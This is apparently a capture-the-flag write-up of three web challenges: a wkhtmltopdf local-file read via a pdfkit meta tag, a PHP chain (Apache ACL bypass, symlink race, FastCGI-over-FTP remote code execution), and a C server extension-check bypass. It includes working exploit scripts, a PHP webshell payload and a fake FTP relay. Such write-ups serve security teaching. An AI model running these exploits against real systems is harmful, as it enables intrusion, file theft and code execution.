so the question is a simple url2pdf 



when passing a simple :

```html
<!DOCTYPE html>
<html>
<body>
    <iframe src="file:///flag.txt" width="100%" height="100%"></iframe>
</body>
</html>
```
we got this stack trace and we notice that the engine used to convert html to pdf is *wkhtmltopdf* 



i knew that there's a recent fix for the file inclusion using the file protocol so we need to somehow play with it we will try to enable some flags to allow the the usage of local files (enabling the file://)

https://stackoverflow.com/questions/73599970/how-to-solve-wkhtmltopdf-reported-an-error-exit-with-code-1-due-to-network-err

maybe we can set *enable-local-file-access* 



let’s dig a bit in the source code of python-pdfkit source code browsing the source code we came across this : 

[python-pdfkit/pdfkit.py#L227](https://github.com/JazzCore/python-pdfkit/blob/master/pdfkit/pdfkit.py#L277)



so the *_find_options_in_meta* function reads the HTML content and extracts configuration options that are encoded in HTML meta tags.

### Key Ideas

- The function takes a single parameter `content` which can be a string or a file-like object containing HTML.
- If `content` is a file-like object, it reads the content into a string.
- It initializes an empty dictionary `found` to store the extracted options.
- It uses regular expressions to find all meta tags in the HTML content.
- It searches for meta tags with a specific prefix in their `name` attribute, extracts the option name and value, and stores them in the `found` dictionary.

so basically we can enable the local file inclusion via 

```html
 <meta name="pdfkit-enable-local-file-access" content=""/>
```
so the final payload would be 
```html
<!DOCTYPE html>
<html>
<head>
    <meta name="pdfkit-enable-local-file-access" content=""/>
</head>
<body>
    <iframe src="file:///flag.txt" width="100%" height="100%"></iframe>
</body>
</html>
```


# chimera - php

The tl;dr
1. apache semantic ambiguity (orange) -> ACL Bypass to read citrus.php
2. flawed symlink behavior -> arbitrary file r/w in the whole file system
3. attack PHP fastcgi from file_put_contents with ftp to RCE

https://blog.orange.tw/posts/2024-08-confusion-attacks-en/



basically : 

Based on the research findings, this Apache configuration has a vulnerability that allows bypassing access restrictions. Let me explain how and why:

```

http://localhost/citrus.php%3Fooo.php
```

Why It Works:

1. Files Directive Bypass:
- The `<Files>` directive checks against r->filename
- When request contains `citrus.php?ooo.php`:
    - Access control module sees: `citrus.php?ooo.php` (no match for `citrus.php`)
    - Therefore bypasses the `Require ip 127.0.0.1` restriction
1. PHP-FPM Processing:
- The request gets forwarded to PHP-FPM via mod_proxy
- mod_proxy converts the path to: `proxy:fcgi://127.0.0.1:9000/var/www/html/citrus.php?ooo.php`
- PHP-FPM's processing logic:
    
    ```c
    /* ignore query string if sent by Apache (RewriteRule) */
    p = strchr(env_script_filename, '?');
    if (p) {
        *p = 0;
    }
    ```
    
- PHP-FPM truncates at the `?` and executes `citrus.php`



ok now the second bug : 

the sleep(5) introduced in the 2 functions of *read()* and *write()* of the CitrusWorkspace class can lead to a race condition which allow us to have an arbitrary file R/W primitive



```python
#!/usr/bin/env python3

import requests
import time
from concurrent.futures import ThreadPoolExecutor

class Exploit:
    def __init__(self, url):
        self.url = url
        self.session = requests.Session()
        self.session.get(url)

    def create_file(self, filename, target_file):
        data = {
            'mode': 'create',
            'filename': filename,
            'symlink': '1',  
            'target': target_file
        }
        return self.session.post(self.url, data=data)

    def read_file(self, filename):
        data = {
            'mode': 'read',
            'filename': filename
        }
        return self.session.post(self.url, data=data)

    def run_exploit(self):
        filename = "file1"
        valid_target = "dummy"
        real_target = "/etc/passwd"

        def create_loop():
            while True:
                self.create_file(filename, valid_target)
                time.sleep(0.1)
                self.create_file(filename, real_target)
                time.sleep(0.1)

        def read_loop():
            while True:
                resp = self.read_file(filename)
                if "root:" in resp.text:
                    print("[+] Success! Found content:")
                    print(resp.text)
                    return True
                time.sleep(0.1)

        with ThreadPoolExecutor(max_workers=2) as executor:
            create_task = executor.submit(create_loop)
            read_task = executor.submit(read_loop)

            try:
                result = read_task.result(timeout=30)
                if result:
                    print("[+] Exploit successful!")
            except:
                print("[-] Exploit failed or timed out")
            finally:
                create_task.cancel()

def main():
    url = "http://localhost:8000/citrus.php%3Fooo.php"
    exploit = Exploit(url)
    exploit.run_exploit()

if __name__ == "__main__":
    main()
```


and the last last step is the the abuse of the fastcgi 

we will trick file_put_contents() into connecting to the ftp we control and sending a FastCGI message that would execute the malicious script.

```python3
import requests
import hashlib
import struct
import time
import threading
import socketserver

# FTP Server Config
LOCAL_PORT = 9000
REMOTE_FTP_SERVER = "127.0.0.1:31337"

class FakeFTP(socketserver.StreamRequestHandler):
    def _send(self, cmd):
        print(f'Sent "{cmd.decode()}"')
        self.wfile.write(cmd + b'\r\n')

    def handle(self):
        print('A new connection appears!')
        self._send(b'200 oh hai')
        while True:
            cmd = self.rfile.readline().rstrip()
            print(f'Got "{cmd.decode()}"')

            if cmd:
                cmd = cmd.split()[0]

            if cmd in (b'USER', b'TYPE'):
                self._send(b'200 ok')
            elif cmd in (b'SIZE', b'EPSV'):
                self._send(b'500 nope')
            elif cmd == b'PASV':
                self._send(f'227 go to (127,0,0,1,{LOCAL_PORT // 256},{LOCAL_PORT % 256})'.encode())
            elif cmd == b'STOR':
                self._send(b'150 do it!')
                self._send(b'226 nice knowing you')
            elif cmd in (b'', b'QUIT'):
                print('All done!')
                break
            else:
                raise Exception('Unknown command')

# Start FTP Server
def start_ftp():
    with socketserver.TCPServer(('', 31337), FakeFTP) as server:
        print('Welcome to FakeFTP')
        server.serve_forever()

ftp_thread = threading.Thread(target=start_ftp, daemon=True)
ftp_thread.start()

TARGET = "http://127.0.0.1:8002"

s = requests.Session()
s.cookies.set("PHPSESSID", "strellmao")
folder = hashlib.md5("strellmao".encode()).hexdigest()

def create(s, filename, symlink=None):
    while True:
        data = {"filename": filename, "mode": "create"}
        if symlink:
            data["symlink"] = "1"
            data["target"] = symlink
        r = s.post(f"{TARGET}/citrus.php%3Flime.php", data=data)
        time.sleep(0.25)
        r = s.get(f"{TARGET}/citrus.php%3Flime.php")
        if symlink and f"Symlink to {symlink}" not in r.text:
            continue
        if f'name="filename" value="{filename}"' not in r.text:
            continue
        break

    if symlink:
        print(f"created {filename} -> {symlink}")
    else:
        print(f"created {filename}")

def delete(s, filename):
    while True:
        r = s.post(f"{TARGET}/citrus.php%3Flime.php", data={
            "filename": filename,
            "mode": "delete"
        })
        time.sleep(0.25)
        r = s.get(f"{TARGET}/citrus.php%3Flime.php")
        if f'name="filename" value="{filename}"' in r.text:
            continue
        break

    print(f"deleted {filename}")

def write(s, filename, data):
    while True:
        r = s.post(f"{TARGET}/citrus.php%3Flime.php", data={
            "filename": filename,
            "mode": "write",
            "data": data
        })
        time.sleep(0.25)
        r = s.get(f"{TARGET}/citrus.php%3Flime.php")
        if f'name="filename" value="{filename}"' not in r.text:
            continue
        break

    print(f"wrote {filename}")

def read(s, filename):
    r = s.post(f"{TARGET}/citrus.php%3Flime.php", data={
        "filename": filename,
        "mode": "read"
    })
    print(r.text)

# First stage - Create PHP webshell
create(s, "c", symlink=".")
create(s, "b", symlink="c")
create(s, "a", symlink="b")
delete(s, "c")
create(s, "a", symlink=f"/tmp/{folder}/pwn.php")
write(s, "a", f"<?php system('/proo* > /tmp/{folder}/flag'); ?>")

# Second stage - Create symlink chain with FTP
s2 = requests.Session()
s2.cookies.set("PHPSESSID", "strellmao2")
create(s2, "c", symlink=".")
create(s2, "b", symlink="c")
create(s2, "a", symlink="b")
delete(s2, "c")
create(s2, "a", symlink=f"ftp://{REMOTE_FTP_SERVER}/pwned")

# FastCGI constants
FCGI_BEGIN_REQUEST = 1
FCGI_PARAMS = 4
FCGI_STDIN = 5
FCGI_RESPONDER = 1

def create_packet(packet_type, content):
    version, request_id, padding_length, reserved = 1, 1, 0, 0
    header = struct.pack('>BBHHBB', version, packet_type, request_id, len(content), padding_length, reserved)
    return header + content

def pack_params(params):
    result = b''
    for k, v in params.items():
        assert len(k) <= 127 and len(v) <= 127
        result += struct.pack('>BB', len(k), len(v)) + k.encode() + v.encode()
    return result

# FastCGI payload
params = {
    'SCRIPT_FILENAME': f'/tmp/{folder}/pwn.php',
    'QUERY_STRING': '',
    'SCRIPT_NAME': f'/tmp/{folder}/pwn.php',
    'REQUEST_METHOD': 'GET',
}

evil_fcgi_packet = b''.join([
    create_packet(FCGI_BEGIN_REQUEST, struct.pack('>H', FCGI_RESPONDER) + b'\x00' * 6),
    create_packet(FCGI_PARAMS, pack_params(params)),
    create_packet(FCGI_PARAMS, pack_params({})),
    create_packet(FCGI_STDIN, b''),
])

write(s2, "c", evil_fcgi_packet)

time.sleep(3)
read(s, "flag")
``` 

Shoutout to master strellic

# Simple web server 

for this question we have a simple c server 
 

we notice a small check in here :
```c
if (!ends_with(filename, ".html") && !ends_with(filename, ".png") && !ends_with(filename, ".css") && !ends_with(filename, ".js")) return NULL;
```
and we can see that the our input is passed to `snprint()` before being used in `fopen()` 

where only length is the `sizeof(real_path)`
```c
char real_path[1024];
``` 
so if our input is large enough we can bypass the extension check and get the flag 
